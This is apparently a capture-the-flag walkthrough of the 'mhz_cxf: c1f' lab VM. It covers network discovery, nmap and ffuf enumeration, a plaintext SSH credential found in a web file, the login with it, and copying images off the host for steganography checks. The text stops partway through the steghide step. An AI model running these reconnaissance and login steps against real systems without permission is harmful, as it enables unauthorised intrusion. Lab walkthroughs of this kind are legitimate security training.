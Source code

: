 # mhz_cxf: c1f

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:12	(Unknown: locally administered)
192.168.56.100	08:00:27:f2:81:70	PCS Systemtechnik GmbH
192.168.56.125	08:00:27:5a:e1:83	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.125`, let's enumerate it

### 2.Enumeration

```bash
root@kali: nmap -sT -sV -sC -v -p- -oN nmap.out 192.168.56.125

Nmap scan report for 192.168.56.125
Host is up (0.00078s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 38:d9:3f:98:15:9a:cc:3e:7a:44:8d:f9:4d:78:fe:2c (RSA)
|   256 89:4e:38:77:78:a4:c3:6d:dc:39:c4:00:f8:a5:67:ed (ECDSA)
|_  256 7c:15:b9:18:fc:5c:75:aa:30:96:15:46:08:a9:83:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:5A:E1:83 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

i tried to fuzz the system for any new files or directories :

```bash
root@kali: ffuf -w /root/wordlist/raft-medium-words.txt  -u http://192.168.56.125/FUZZ -e .txt,.php,.rar,.zip,.tar,.old,.js,.bak -fc 403

notes.txt               [Status: 200, Size: 86, Words: 16, Lines: 4, Duration: 1ms]
```

check notes.txt :

```text
1- i should finish my second lab 
2- i should delete the remb.txt file and remb2.txt
```

check `remb.txt` :

```text
first_stage:flagitifyoucan1234
```

it looks like a username and password.


### 3.Gaining Shell

Let's ssh to system using the username and password found previously :

```bash
root@kali: ssh first_stage@192.168.56.125
first_stage@192.168.56.125's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Apr 21 08:07:13 UTC 2024

  System load:  0.29              Processes:             91
  Usage of /:   39.9% of 9.78GB   Users logged in:       0
  Memory usage: 52%               IP address for enp0s3: 192.168.56.125
  Swap usage:   0%

23 packages can be updated.
0 updates are security updates.

$ id
uid=1001(first_stage) gid=1001(first_stage) groups=1001(first_stage)
```

### 4.Privilege Escalation

first check /home directory and `/home/mhz_c1f/Paintings` :

```bash
'19th century American.jpeg'  'Russian beauty.jpeg'
'Frank McCarthy.jpeg'         'spinning the wool.jpeg'
```

these images should be transfered to you kali machine to check for any hidden data within them :

```bash
scp first_stage@192.168.56.125:/home/mhz_c1f/Paintings/'19th century American.jpeg' .
scp first_stage@192.168.56.125:/home/mhz_c1f/Paintings/'Russian beauty.jpeg' .
scp first_stage@192.168.56.125:/home/mhz_c1f/Paintings/'Frank McCarthy.jpeg'  .
scp first_stage@192.168.56.125:/home/mhz_c1f/Paintings/'spinning the wool.jpeg' .
```

check one by one by `steghide` and in the image `'spinning the wool.jpeg'`









